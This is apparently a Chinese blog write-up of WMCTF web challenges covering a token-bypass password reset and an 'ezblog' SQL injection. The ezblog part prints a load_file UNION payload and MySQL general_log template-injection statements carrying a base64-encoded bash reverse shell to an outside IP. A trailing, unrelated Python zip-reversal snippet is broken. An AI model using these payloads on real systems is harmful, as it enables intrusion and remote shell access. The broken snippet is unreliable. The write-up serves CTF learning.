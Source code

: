 ```yaml
---
layout: post
title: WMCTF中其他的题目
categories: [blog ]
tags: [Java,]
description: "当时禁了非常多的类"
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: https://github.com/
 

---
```


![](/img/swirl/11.jpg)

# WMCTF



## 你的权限放我来

![image-20230820170743457](..\img\final\image-20230820170743457.png)

注册登陆后看到其他用户，可以猜想到这是一个数据库

#### 网页功能

用户登陆

用户注册

密码重置

登陆界面回显	

![image-20230820202007118](..\img\final\image-20230820202007118.png)

![image-20230820202741171](..\img\final\image-20230820202741171.png)

![image-20230820202729437](..\img\final\image-20230820202729437.png)

发现直接发送到我的邮箱了

![image-20230820230613247](..\img\final\image-20230820230613247.png)

本来想改密码直接换这个邮箱的毕竟题目源码有几个可疑的，但是发现token会进行校验

### 自己差的地方

都想到更改邮箱了，md直接把token删了呀，然后换上源码的邮箱，就可以更改指定邮箱的密码，然后登陆即可（一个个邮箱试）



## ezblog

当时看这道题得时候发现源码太多了，没耐心看下去，出了wp（来分析分析）

```javascript
app.get("/post/:id/edit", async (req, res) => {
    try {
        // parseInt的性能问题 https://dev.to/darkmavis1980/you-should-stop-using-parseint-nbf
        let id = req.params.id;
        if (!/\d+/igm.test(id) || /into|outfile|dumpfile/igm.test(id)) { // 判断 id是否是纯数字
            res.status(400).send(`Error: '${id}' is invalid id`);
            return;
        }
        // id只能为数字，可以安全的转为number，避免parseInt降低性能
        let post = await (0, posts_1.getPostById)(id);
        res.render("edit", {
            post
        });
    }
    catch (e) {
        res.status(500).send(e);
    }
});
```

/\d+/igm.test(id)这里得校验是字符中含有数字就可以,然后调用posts_1.getPostById，拼接可能造成sql注入

```javascript
function getPostById(id) {
    return new Promise((resolve, reject) => {
        // 使用 number 类型的 id 不会导致 sql 注入，因为数字类型只有0-9的数字，无法构造sql语句
        // TypeScript可以确保传入类型只能为number，不能为字符串，如果为字符串，将会发生编译时错误导致tsc无法编译，所以是安全的
        db_1.connection.query(`select * from Posts where id = ` + id, (err, results) => {
            if (err) {
                reject(err);
            }
            else {
                if (results.length === 0) {
                    reject(new Error("Post not found"));
                }
                else {
                    resolve({
                        id: results[0].id,
                        title: results[0].title,
                        content: results[0].content
                    });
                }
            }
        });
    });
}
```

![image-20230822163807965](..\img\final\image-20230822163807965.png)

发现出现了sql注入报错，说明存在sql这时候![image-20230822163856426](..\img\final\image-20230822163856426.png)

然后我们需要获得ping码，![image-20230822164110854](..\img\final\image-20230822164110854.png)

然后看✌们wp说是从   发现主程序启动的日志在`/home/ezblog/.pm2/logs/main-out.log`中

#### 解决方法

```
根据源码搭建一个docker（这里本地尝试使用dockercompose直接起得，但是起不来）
呃呃呃最后用了lxxx✌得docker
然后需要找启动得日志嘛
find / -name "logs" -type d   全局搜索logs日志文件夹
其实通过看dockerfile文件，能看的差不多
```

![image-20230822172053413](..\img\final\image-20230822172053413.png)

```
但是找了一圈没找到很疑惑

/post/-1%20union%20select%201,2,load_file(0x2f686f6d652f657a626c6f672f2e706d322f6c6f67732f6d61696e2d6f75742e6c6f67)/edit
```

![image-20230822165130652](..\img\final\image-20230822165130652.png)

![image-20230822172203881](..\img\final\image-20230822172203881.png)

然后就可以直接访问/console输入pin码

![image-20230822172243408](..\img\final\image-20230822172243408.png)

然后到了这个界面（如果说上面的拼死命可能做出，但是后面卧槽我是真不行）

#### General_log详解

1、介绍

开启general log将所有到达MySQL Server的SQL语句记录下来

show variables like 'general_log'; -- 查看日志是否开启

set global general_log=on; -- 开启日志功能

show variables like 'general_log_file'; -- 看看日志文件保存位置

set global general_log_file='tmp/general.lg'; -- 设置日志文件保存位置

show variables like 'log_output'; -- 看看日志输出类型 table或file

set global log_output='table'; -- 设置输出类型为 table

set global log_output='file'; -- 设置输出类型为file



#### 回归题目

​	先拿着佬的wp进行一波分析

```java
    CREATE DATABASE mysql;
    CREATE TABLE mysql.general_log(
      event_time timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
      user_host mediumtext NOT NULL,
      thread_id int(11) NOT NULL,
      server_id int(10) unsigned NOT NULL,
      command_type varchar(64) NOT NULL,
      argument mediumtext NOT NULL
    ) ENGINE=CSV DEFAULT CHARSET=utf8 COMMENT='General log';
    SET GLOBAL general_log_file='/home/ezblog/views/post.ejs';
    SET GLOBAL general_log='on';
    SELECT "<% global.process.mainModule.require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDIuMjI0LjU3LzQ0NDQgMD4mMQ==}|base64 -d|bash'); %>";
```

![image-20230822221718926](..\img\final\image-20230822221718926.png)

![image-20230822223223891](..\img\final\image-20230822223223891.png)

理想状态是在中间建立表，然后下面渲染模板，用的是docker中的绝对路径（但是却没成功）不知道自己操作哪里错了。







```
f=open("C:\Users\c'x'k\Desktop\misctool\3.zip","rb")#这样读取的内容是二进制的
hex_list=["{:02X}".format(c) for c in f.read()]  #这里的{:02x}是把后面二进制转换为 2位的16进制，不足则补0
hex_str=''.join(hex_list)
reversed_hex_str=hex_str[::-1]
reversed_bytes=bytes.fromhex(reversed_hex_str) #将反转后的16进制字符串转换为字节流
with open('Reverse_reversed.zip','wb') as f:  #打开一个新的二进制文件，将反转后的字节流写入其中
    f.write()
```

